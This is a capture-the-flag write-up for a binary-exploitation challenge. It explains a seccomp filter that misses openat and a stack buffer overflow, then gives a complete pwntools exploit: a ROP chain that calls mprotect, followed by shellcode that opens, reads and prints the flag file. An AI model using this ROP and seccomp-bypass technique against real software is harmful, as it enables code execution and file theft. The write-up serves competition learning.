 ## Level: Easy

### Challenge

is a challenge from 0x3CTF... the intro was pretty [sick](https://www.youtube.com/watch?v=1CpP3gfebGI)

main calls dev_null()

![devnul](https://github.com/4rsp/writeups/blob/main/x3CTF-2025/devnull-as-a-service/func.png)

and dev_null calls enable_seccomp()

![seccomp](https://github.com/4rsp/writeups/blob/main/x3CTF-2025/devnull-as-a-service/seccomp.png)

as you can tell from the name it enables seccomp. 

the output of `seccomp-tools dump ./dev-null`

```
[/dev/null as a service] Send us anything, we won't do anything with it.
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x1c 0xc000003e  if (A != ARCH_X86_64) goto 0030
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x19 0xffffffff  if (A != 0xffffffff) goto 0030
 0005: 0x15 0x18 0x00 0x00000002  if (A == open) goto 0030
 0006: 0x15 0x17 0x00 0x00000003  if (A == close) goto 0030
 0007: 0x15 0x16 0x00 0x00000012  if (A == pwrite64) goto 0030
 0008: 0x15 0x15 0x00 0x00000014  if (A == writev) goto 0030
 0009: 0x15 0x14 0x00 0x00000016  if (A == pipe) goto 0030
 0010: 0x15 0x13 0x00 0x00000020  if (A == dup) goto 0030
 0011: 0x15 0x12 0x00 0x00000021  if (A == dup2) goto 0030
 0012: 0x15 0x11 0x00 0x00000028  if (A == sendfile) goto 0030
 0013: 0x15 0x10 0x00 0x00000029  if (A == socket) goto 0030
 0014: 0x15 0x0f 0x00 0x0000002c  if (A == sendto) goto 0030
 0015: 0x15 0x0e 0x00 0x0000002e  if (A == sendmsg) goto 0030
 0016: 0x15 0x0d 0x00 0x00000031  if (A == bind) goto 0030
 0017: 0x15 0x0c 0x00 0x00000038  if (A == clone) goto 0030
 0018: 0x15 0x0b 0x00 0x00000039  if (A == fork) goto 0030
 0019: 0x15 0x0a 0x00 0x0000003a  if (A == vfork) goto 0030
 0020: 0x15 0x09 0x00 0x0000003b  if (A == execve) goto 0030
 0021: 0x15 0x08 0x00 0x00000065  if (A == ptrace) goto 0030
 0022: 0x15 0x07 0x00 0x00000113  if (A == splice) goto 0030
 0023: 0x15 0x06 0x00 0x00000114  if (A == tee) goto 0030
 0024: 0x15 0x05 0x00 0x00000124  if (A == dup3) goto 0030
 0025: 0x15 0x04 0x00 0x00000125  if (A == pipe2) goto 0030
 0026: 0x15 0x03 0x00 0x00000128  if (A == pwritev) goto 0030
 0027: 0x15 0x02 0x00 0x00000137  if (A == process_vm_writev) goto 0030
 0028: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0030
 0029: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0030: 0x06 0x00 0x00 0x00000000  return KILL
```
> looks like a very strict syscall filter. gosh, if i only knew kernel hacking...

read and write is allowed but open is not

but ya know, there is also openat syscall which they didn't include in the filter...

binary is statically linked so no libc shenanigans 😞

there is simple bof in the dev_null function (never ignore compiler warnings...) which we can use it to call mprotect on an address via gadgets from the binary (no PIE)

then read in your shellcode to the addr with fixed permissions and jump to it

thats pretty much it...

```python3
#!/usr/bin/env python3

from pwn import *
context.arch = 'amd64'
'''
p = gdb.debug("./dev_null", gdbscript="""
              b *dev_null+23
              b *dev_null+50
              b *0x00000000004b0000
              c
""")
'''
p = remote("152abf23-094a-42db-ab67-a6e4df33e392.x3c.tf", 31337, ssl=True)

gets = 0x405a20
puts = 0x405c10
main = 0x401e72

pop_rax = 0x000000000042193c 
pop_rsi = 0x0000000000402acc # +pop rbp
pop_rdi = 0x0000000000413795
pop_rbx = 0x0000000000474967
pop_rdx = 0x000000000046ddce # +pop rbx, r12, r13, rbp

syscall = 0x000000000041aaf4 # mov eax, 0xa; syscall
nop = 0x000000000042210f 

# call mprotect with rwx permissions
payload = p64(pop_rsi)
payload += p64(0x600)
payload += p64(main)

payload += p64(pop_rdx)
payload += p64(0x07)
payload += p64(0x00) * 3
payload += p64(main)

payload += p64(pop_rdi)
payload += p64(0x00000000004b0000)
payload += p64(pop_rax)
payload += p64(0x00) 
payload += p64(syscall)
payload += p64(main)

p.sendlineafter(b"with it.\n", b"a"*16 + payload)

# write and jump to the shellcode
jmp_rax = 0x0000000000407677 # +pop rbp; jmp

payload = p64(pop_rdi)
payload += p64(0x00000000004b0000)
payload += p64(gets)

payload += p64(pop_rax)
payload += p64(0x00000000004b0008)
payload += p64(jmp_rax)

p.sendlineafter(b"with it.\n", b"a"*16 + payload)

# openat, read and write 
asm_code = '''
    nop
    nop
    nop
    sub rsp, 0x20
    mov rdi, 0
    lea rsi, [rip+flag]
    mov rax, 0x101   
    xor rdx, rdx
    xor r10, r10
    syscall
    
    mov rdi, rax
    lea rsi, [buf+rip]
    mov rdx, 0x256
    xor rax, rax
    syscall

    xor rax, rax         
    mov al, 0x1           
    mov rdi, 1              
    lea rsi, [rip+buf]   
    mov rdx, 64             
    syscall                   

flag:
    .string "/home/ctf/flag.txt"

buf:
    .space 256

'''

p.sendline(asm(asm_code))

p.interactive()
```

and the very alive flag...

![remoteflag](https://github.com/4rsp/writeups/blob/main/x3CTF-2025/devnull-as-a-service/remoteflag.png)


***4rsp has started solving challs on remote, finally...***

